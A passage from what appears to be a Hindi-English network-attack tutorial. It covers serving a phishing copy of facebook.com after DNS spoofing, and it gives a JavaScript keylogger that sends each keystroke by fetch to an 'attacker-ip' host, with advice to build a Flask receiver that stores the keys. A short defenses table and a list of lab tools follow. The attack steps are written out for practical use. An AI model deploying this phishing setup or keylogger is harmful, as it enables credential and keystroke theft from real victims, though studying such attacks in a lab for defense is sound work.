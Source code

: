 ### 🧪 Lab:
1. DNS Spoof सेट करें (जैसा ऊपर बताया)
2. अपनी phishing साइट `index.html` serve करें:
```bash
sudo python3 -m http.server 80
```
3. Victim को facebook.com खोलने कहें।

---

## 9️⃣ JS Keylogger Injection (Bonus)

### 🔎 Attack:
JS ke ज़रिए victim के keyboard strokes capture करना।

### jsinject.js content:
```javascript
document.onkeypress = function(e) {
    fetch("http://attacker-ip:5000/log?key=" + e.key);
};
```

> Flask से receiver बनाएं जो keys को save करे।

---

## 🔒 Defenses (बचाव कैसे करें?)

| Attack | बचाव |
|--------|------|
| ARP Spoof | Static ARP | Packet filtering |
| DNS Spoof | DNSSEC | VPN |
| SSL Strip | HTTPS-only | HSTS |
| JS Inject | CSP Header | Browser Security |
| Sniffing | Encrypted traffic | VPN |

---

## 📖 Practice Lab Setup

| Tool | Use |
|------|-----|
| Kali Linux | Attacker system |
| Android / Windows | Victim |
| Wireshark | Traffic analyzer |
| Flask / Apache | Fake site serving |
| html/index.html | Fake login form |
| jsinject.js | JS Payload |
| Router | Same network for both |

---